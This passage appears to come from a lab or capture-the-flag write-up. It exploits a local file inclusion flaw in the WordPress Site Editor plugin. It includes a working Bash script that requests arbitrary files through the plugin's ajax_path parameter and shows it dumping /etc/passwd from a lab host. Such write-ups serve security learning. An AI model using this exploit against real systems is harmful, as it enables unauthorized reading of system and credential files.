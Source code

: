 
To automate this process, I've created a simple **Bash script** that will save us time in the future.

Script: 

```bash
#!/bin/bash

panel(){

  echo -e "\n[!] Use:\n"
  echo -e "You must provide a file as a parameter. $0 /etc/passwd\n"

}

if [ $# -eq 1 ]; then

  echo 
  curl -s -X GET "http://192.168.190.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=$1" | head -n -1

else
  panel

fi
```

Reading **passwd** file from the terminal.

```bash
❯ ./lfi.sh /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
redis:x:107:114::/var/lib/redis:/usr/sbin/nologin
alice:x:1000:1000::/home/alice:/bin/bash
```
{: .nolineno }
As you can see, with this script, we can load files more quickly and efficiently.
